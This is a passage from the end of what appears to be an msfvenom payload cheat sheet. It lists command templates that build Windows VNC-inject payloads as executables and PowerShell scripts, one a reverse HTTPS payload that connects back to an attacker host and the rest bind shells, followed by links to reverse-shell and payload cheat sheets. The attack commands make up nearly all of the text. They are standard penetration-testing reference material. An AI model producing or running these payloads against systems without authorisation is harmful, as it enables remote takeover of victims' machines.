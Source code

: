 `$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

#### 2.7.1 - Staged Windows VNC Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p cmd/windows/powershell/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f raw -o vnc-x86.ps1`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

## References

- [How to XOR with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-XOR-with-Metasploit-Framework-Compiler)

- [How to RC4 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decrypt-RC4-with-Metasploit-Framework-Compiler)

- [How to decode Base64 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decode-Base64-with-Metasploit-Framework-Compiler)

- [MSFVenom Reverse Shell Payload Cheatsheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

- [MSFVenom Cheatsheet Create Metasploit Payloads](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)

- [MSF-Venom Cheatsheet](https://github.com/frizb/MSF-Venom-Cheatsheet)

- [Reverse Shell Cheatsheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

- [Hacktricks Shells](https://book.hacktricks.xyz/shells/shells)

- [Hacktricks MSFVenom Shells](https://book.hacktricks.xyz/shells/shells/msfvenom)

- [PentestWiki MSFVenom Payloads Cheatsheet](https://pentestwiki.org/msfvenom-payloads-cheat-sheet/)

- [SMB NamedPipe Pivoting Meterpreter](https://nagarrosecurity.com/blog/smb-named-pipe-pivoting-meterpreter)

- [Get Reverse Shell via Windows One Liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)